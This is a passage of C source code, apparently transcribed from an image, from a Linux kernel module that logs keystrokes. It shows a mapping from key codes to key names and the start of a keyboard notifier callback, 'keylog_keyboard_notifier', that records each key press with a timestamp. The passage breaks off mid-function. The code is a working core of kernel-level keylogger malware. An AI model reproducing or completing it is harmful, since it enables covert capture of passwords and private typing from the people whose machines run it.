 ```c
    case KEY_1: return "1";
    case KEY_2: return "2";
    case KEY_3: return "3";
    case KEY_4: return "4";
    case KEY_5: return "5";
    case KEY_6: return "6";
    case KEY_7: return "7";
    case KEY_8: return "8";
    case KEY_9: return "9";
    case KEY_0: return "0";
    case KEY_Q: return "Q";
    case KEY_W: return "W";
    case KEY_E: return "E";
    case KEY_R: return "R";
    case KEY_T: return "T";
    case KEY_Y: return "Y";
    case KEY_U: return "U";
    case KEY_I: return "I";
    case KEY_O: return "O";
    case KEY_P: return "P";
    case KEY_A: return "A";
    case KEY_S: return "S";
    case KEY_D: return "D";
    case KEY_F: return "F";
    case KEY_G: return "G";
    case KEY_H: return "H";
    case KEY_J: return "J";
    case KEY_K: return "K";
    case KEY_L: return "L";
    case KEY_Z: return "Z";
    case KEY_X: return "X";
    case KEY_C: return "C";
    case KEY_V: return "V";
    case KEY_B: return "B";
    case KEY_N: return "N";
    case KEY_M: return "M";
    case KEY_SPACE: return "SPACE";
    case KEY_ENTER: return "ENTER";
    case KEY_BACKSPACE: return "BACKSPACE";
    case KEY_TAB: return "TAB";
    case KEY_LEFTSHIFT: return "LEFTSHIFT";
    case KEY_RIGHTSHIFT: return "RIGHTSHIFT";
    case KEY_LEFTCTRL: return "LEFTCTRL";
    case KEY_RIGHTCTRL: return "RIGHTCTRL";
    case KEY_F1: return "F1";
    case KEY_F2: return "F2";
    default: return "UNKNOWN";
  }
}

// Notifier callback - capture key events (only key down, converted from user-space read)
static int keylog_keyboard_notifier(struct notifier_block *nb, unsigned long action, void *data) {
    struct keyboard_notifier_param *param = data;
    const char *keyname = keycode_to_string(param->value);

    // Only log on key down (param->down = 1) - fixed from user-space ev.value == 1
    if (!param->down || strcmp(keyname, "UNKNOWN") == 0) {
        return NOTIFY_OK;
    }

    // Log with timestamp (converted from printf/fprintf)
    struct timespec64 ts;
    ktime_get_real_ts64(&ts);
```